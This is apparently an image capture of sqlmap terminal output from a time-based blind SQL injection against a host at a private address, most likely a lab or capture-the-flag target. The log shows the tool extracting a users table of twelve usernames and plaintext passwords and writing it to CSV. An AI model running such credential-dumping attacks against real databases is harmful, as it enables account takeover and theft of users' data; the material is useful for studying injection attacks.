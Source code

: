 ```
[14:15:08] [INFO] adjusting time delay to 1 second due to good response times
2
[14:15:11] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                
1
[14:15:13] [INFO] retrieved: password123
[14:15:47] [INFO] retrieved: rejetto
[14:16:11] [INFO] retrieved: 2
[14:16:15] [INFO] retrieved: alicelaultramejor
[14:17:03] [INFO] retrieved: tomitoma
[14:17:30] [INFO] retrieved: 3
[14:17:33] [INFO] retrieved: passwordinhack
[14:18:18] [INFO] retrieved: alice
[14:18:31] [INFO] retrieved: 4
[14:18:35] [INFO] retrieved: supersecurepasswordultra
[14:19:51] [INFO] retrieved: whoami
[14:20:10] [INFO] retrieved: 5
[14:20:14] [INFO] retrieved: estrella_big
[14:20:53] [INFO] retrieved: pip
[14:21:06] [INFO] retrieved: 6
[14:21:11] [INFO] retrieved: colorcolorido
[14:21:56] [INFO] retrieved: rufus
[14:22:12] [INFO] retrieved: 7
[14:22:17] [INFO] retrieved: ultramegaverypasswordhack
[14:23:32] [INFO] retrieved: jazmin
[14:23:51] [INFO] retrieved: 8
[14:23:56] [INFO] retrieved: unbreackroot
[14:24:34] [INFO] retrieved: rosa
[14:24:46] [INFO] retrieved: 9
[14:24:49] [INFO] retrieved: happypassword
[14:25:36] [INFO] retrieved: mario
[14:25:50] [INFO] retrieved: 10
[14:25:54] [INFO] retrieved: admin12345password
[14:26:49] [INFO] retrieved: veryhardpassword
[14:27:41] [INFO] retrieved: 11
[14:27:45] [INFO] retrieved: carsisgood
[14:28:15] [INFO] retrieved: root
[14:28:32] [INFO] retrieved: 12
[14:28:36] [INFO] retrieved: badmenandwomen
[14:29:19] [INFO] retrieved: admin
Database: crackofftrue_db
Table: users
[12 entries]
+----+---------------------------+------------------+
| id | password                  | username         |
+----+---------------------------+------------------+
| 1  | password123               | rejetto          |
| 2  | alicelaultramejor         | tomitoma         |
| 3  | passwordinhack            | alice            |
| 4  | supersecurepasswordultra  | whoami           |
| 5  | estrella_big              | pip              |
| 6  | colorcolorido             | rufus            |
| 7  | ultramegaverypasswordhack | jazmin           |
| 8  | unbreackroot              | rosa             |
| 9  | happypassword             | mario            |
| 10 | admin12345password        | veryhardpassword |
| 11 | carsisgood                | root             |
| 12 | badmenandwomen            | admin            |
+----+---------------------------+------------------+

[14:29:34] [INFO] table 'crackofftrue_db.users' dumped to CSV file '/root/.local/share/sqlmap/output/172.25.0.2/dump/crackofftrue_db/users.csv'
```